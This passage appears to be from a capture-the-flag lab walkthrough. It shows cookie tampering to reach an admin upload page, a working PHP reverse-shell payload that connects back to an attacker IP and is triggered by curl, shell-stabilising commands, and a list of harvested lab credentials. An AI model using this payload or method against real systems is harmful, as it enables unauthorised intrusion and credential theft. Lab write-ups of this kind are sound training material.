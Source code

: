 > Play with this regex [here](https://regex101.com/r/dNJew0/1).

![2874780499364.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1624364950772/ycUiVDp9y.png align="left")

Ok, so when we replace the cookies with `super admin` account details, we should be able to see the `Uploads` page.

![5332291816323.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1624364965952/0cXR4ZlM0.png align="left")

Voila!

![2561109258800.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1624364977154/Mxy5paAMp.png align="left")

[Back to top](#contents) ⤴

# Exploiting (user shell)

First, we can try the simplest payload:

```php
# pshell.php

<?php
$sock=fsockopen("10.10.XX.XXX",4445);
$proc=proc_open('/bin/sh -i', array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);
?>
```

![1921633931166.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1624365280394/-TBb8QrQq.png align="left")

Let's see `curl http://10.10.10.28/uploads/pshell.php`

Yup, reverse shell obtained.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1624367279700/hPnhkisKM.png align="left")

Semi stabilizing shell and alias

```plaintext
$ alias ls='ls --color=always -lAh'
$ python3 -c "import pty;pty.spawn('/bin/bash')"
```

Some more interesting findings:

![75148064956.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1624365008922/cVsC454CR.png align="left")

![236932727586.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1624365024818/_zaAS_mcs.png align="left")

Another credential to add.

```plaintext
$ echo 'robert|M3g4C0rpUs3r!' | tee -a ../.credentials
robert|M3g4C0rpUs3r!

$ cat ../.credentials

sql_svc|M3g4c0rp123
administrator|MEGACORP_4dm1n!!
robert|M3g4C0rpUs3r!
```
